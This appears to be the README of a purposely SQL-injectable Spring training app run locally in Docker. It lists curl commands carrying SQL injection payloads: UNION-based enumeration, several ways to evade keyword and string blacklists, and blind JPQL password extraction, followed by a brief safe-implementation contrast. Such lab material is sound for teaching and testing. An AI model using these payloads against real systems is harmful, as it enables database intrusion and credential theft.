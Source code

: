 # SQLi vulnerable Spring Application

<p align="center">
  <img src="intro.svg">
</p>

## TL;DR

To build and run:
```
sudo docker build -t sqli_victim_webapp_java_spring .; sudo docker run --name victim.sqli.webapp_java_spring.tld -ti -p 127.0.0.1:5808:8080 -v "$(pwd)"/webapp_java_spring/:/usr/src/ sqli_victim_webapp_java_spring
```

To fill the database:

```
curl -X GET 'localhost:5808/sqlidemo/all'
curl -X POST localhost:5808/sqlidemo/add -d username=user -d password=password
```

Read username by id:

```
curl localhost:5808/sqlidemo/vulnbyid -d id=1
```

To get access to the database:
```
sudo docker exec -ti victim.sqli.webapp_java_spring.tld mysql --host localhost -uuser -ppassword sqli_example
```

## SQLi

### Java based

Check for union select:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,NULL -- "
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,'A'"
````

Enumerate database:

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(SELECT @@VERSION) -- "
curl -X GET localhost:5808/sqlidemo/vulnbyid\?id="1'+UNION+SELECT+NULL,NULL,(SELECT+@@VERSION)+--+"
```

#### Blacklist 

Use 

```
curl localhost:5808/sqlidemo/vulnbyid -d id -d blacklistconfig=help
```

to get a help display of all possible blacklist configurations.

##### Single Quote Replacement

Using Escape Sequences ([https://mariadb.com/kb/en/string-literals/](https://mariadb.com/kb/en/string-literals/)):

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1\' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=add_oddsinglequotes
```

or as keyword

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=add_oddsinglequotes
```

##### Any Uppercase

```  
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) -- " -d blacklistconfig=block_anyuppercase
```

##### Any Lowercase

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' UNION SELECT NULL,NULL,(@@VERSION) -- " -d blacklistconfig=block_anylowercase
```

##### Keyword Sequences Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union/**/select null,null,(@@version) -- " -d blacklistconfig=block_keywordsequences
```

##### Comment Double Dash Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) #" -d blacklistconfig=block_comment_doubledash
```

##### All Comment Types Check

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(@@version) as username from user where id='1" -d blacklistconfig=block_comment_doubledash,block_comment_hash
```

##### String Detection I

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CONCAT('VERSIO','N')) -- " -d blacklistconfig=block_badstrings
```

or

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name='VERSIO' 'N') -- " -d blacklistconfig=block_badstrings
```


##### String Detection II

Using

```
echo -n 'VERSION'|base64
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=FROM_BASE64('VkVSU0lPTg==')) -- " -d blacklistconfig=block_badstrings,block_concatenation
```

##### String Detection III

Using

```
printf '%d %d %d %d %d %d %d' "'V" "'E" "'R" "'S" "'I" "'O" "'N"
```

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=CHAR(86,69,82,83,73,79,78)) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64
```

##### String Detection IV  

Using

```
SELECT CONCAT('0x',HEX('VERSION'))
``` 

```
curl localhost:5808/sqlidemo/vulnbyid -d id="1' union select null,null,(select variable_value from information_schema.global_variables where variable_name=0x56455253494F4E) -- " -d blacklistconfig=block_badstrings,block_concatenation,block_base64,block_char_function
```

##### All together

```
curl http://localhost:5808/sqlidemo/vulnbyid \       
\
-d id=\                                                                    
"1' unionunion select select null,null,(select variable_value from \       
information_schema.global_variables where variable_name=0x56455253494f4e) \
as username from user where id='1" \
\                       
-d blacklistconfig=\      
add_oddsinglequotes,\     
strip_keywordsequences,\  
block_comment_doubledash,\
block_comment_hash,\ 
block_anyuppercase,\ 
block_badstrings,\   
block_concatenation,\
block_base64,\     
block_char_function
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='p" 
curl localhost:5808/sqlidemo/vulnbyid2 -d id="1' AND SUBSTRING(password,1,1)='a" 
```

## Safe Implementation

### Java based

```
curl localhost:5808/sqlidemo/safebyid -d id="1' AND SUBSTRING(password,1,1)='p"
```

### JPQL based

```
curl localhost:5808/sqlidemo/add -d username=user -d password=password
curl localhost:5808/sqlidemo/safebyid2 -d id="1' AND SUBSTRING(password,1,1)='p"
```
